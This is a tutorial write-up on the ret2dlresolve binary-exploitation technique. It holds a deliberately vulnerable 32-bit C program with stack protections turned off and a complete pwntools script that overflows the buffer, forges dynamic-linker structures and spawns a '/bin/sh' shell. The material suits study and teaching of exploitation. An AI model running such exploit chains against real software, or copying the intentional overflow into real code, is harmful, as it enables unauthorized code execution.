

# ret2dlresolve in a 32-bit 

## 🔧 Setup

### 🔹 Source Code (vulnerable program)

```c
#include <unistd.h>

void vuln(void) {
    char buf[64];
    read(STDIN_FILENO, buf, 200);  // buffer overflow
}

int main(int argc, char** argv) {
    vuln();
}
```

### 🔹 Compile with:

```bash
gcc -m32 -fno-stack-protector -no-pie -o vuln source.c
```

* `-m32`: 32-bit binary
* `-fno-stack-protector`: disables stack canaries
* `-no-pie`: disables PIE (no ASLR for code, fixed base addresses)

---

## 🧠 Vulnerability Overview

* **Buffer overflow** in `vuln()` → we read 200 bytes into a 64-byte buffer.
* Allows us to **control EIP** and pivot to a ROP chain.
* However, **no `system@plt` or `/bin/sh` is available** in the binary or GOT.
* This is where **ret2dlresolve** comes in.

---

## ⚔️ What is ret2dlresolve?

> It's a technique to call **dynamic linker (`ld.so`) resolution manually**, to resolve functions **not yet resolved** at runtime (like `system`), by forging relocation and symbol entries.

---

## 📜 Full Exploit Breakdown

```python
from pwn import *

# Load the ELF binary and prepare context
elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)
```

### 🔹 Step 1: Prepare the dynamic linker resolver

```python
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
```

* `Ret2dlresolvePayload` builds:

  * `.dynstr`: the string table (`"system"`)
  * `.dynsym`: a fake `Elf32_Sym` symbol structure
  * `.rel.plt`: a fake `Elf32_Rel` relocation structure
* All these are placed at `dlresolve.data_addr` (writable memory, e.g., `.bss`)
* Calculates the `reloc_offset` for `ret2dlresolve()`.

---

### 🔹 Step 2: Create ROP Chain

```python
rop.raw('A' * 76)
```

* Fills the buffer (`64 bytes`) + `12 bytes` padding to reach return address (`EIP` overwrite).

```python
rop.read(0, dlresolve.data_addr)
```

* Calls `read(0, dlresolve.data_addr, ...)` to **write the fake structures** into memory.
* `0` → stdin
* `dlresolve.data_addr` → destination memory (like `.bss`)
* This gets triggered when the first stage payload runs.

```python
rop.ret2dlresolve(dlresolve)
```

* Calls a function like `foo@plt` (any function that triggers `resolve()`).
* Dynamic linker uses the **fake relocation** structure and symbol name to resolve `system`.
* Then jumps to it with our provided args (`/bin/sh`).

---

### 🔹 Step 3: Send First Stage

```python
p.sendline(rop.chain())
```

* Sends the **first stage ROP chain**, which:

  1. Overflows the buffer
  2. Calls `read()` to write the fake structures
  3. Triggers `ret2dlresolve()` to resolve and call `system("/bin/sh")`

```python
p.sendline(dlresolve.payload)
```

* Sends the **second stage**: the fake structures for `.rel.plt`, `.dynsym`, `.dynstr`
* These get written to memory by the `read()` we called in stage 1

```python
p.interactive()
```

* You get a shell 🐚

---

## 📦 Memory Layout After Exploit


---

## 🧮 How ret2dlresolve Works Internally

1. You call `.plt[0]` with `reloc_offset`.
2. The dynamic linker checks `.rel.plt[reloc_offset]`.
3. It sees the **fake relocation** entry you placed at `.bss`.
4. It uses the index to get a **fake symbol** (Elf32\_Sym).
5. Uses `st_name` to read the string `"system"` from your fake `.dynstr`.
6. Resolves it using the dynamic symbol resolution process (same as lazy binding).
7. Updates the GOT (optionally), then **calls `system("/bin/sh")`**.


you can learn more about this [here](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2dlresolve)

---


